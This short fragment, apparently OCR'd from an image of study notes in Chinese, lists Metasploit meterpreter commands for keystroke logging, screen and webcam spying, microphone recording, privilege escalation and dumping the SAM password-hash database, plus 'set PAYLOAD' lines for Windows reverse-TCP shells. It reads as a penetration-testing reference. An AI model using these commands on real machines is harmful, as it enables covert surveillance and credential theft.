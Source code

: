 		-->idletime：傳回遠端使用者空閒的秒數
		-->keyscan_dump：轉儲擊鍵緩衝區
		-->keyscan_start：開始捕獲擊鍵
		-->keyscan_stop：停止捕獲擊鍵
		-->screenshare：允許您即時觀看遠端使用者的桌面
		-->screenshot：抓取互動式桌面的螢幕截圖
		-->record_mic：從預設麥克風錄製音訊 X 秒
		-->webcam_chat：開始視訊聊天
		-->webcam_list：列出網路攝影機
		-->webcam_snap：從指定的網路攝影機拍攝快照
		-->webcam_stream：播放指定網路攝影機的視訊串流
		-->getsystem：嘗試將您的權限提升到本機系統的權限
		-->hashdump：轉儲SAM資料庫的內容
		
		--> TASK
			--> sysinfo : 計算機名稱
	~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~~
	PAYLOAD : 
		set PAYLOAD windows/meterpreter/reverse_tcp
		set PAYLOAD windows/shell/reverse_tcp 
		set PAYLOAD windows/shell_reverse_tcp


		
		
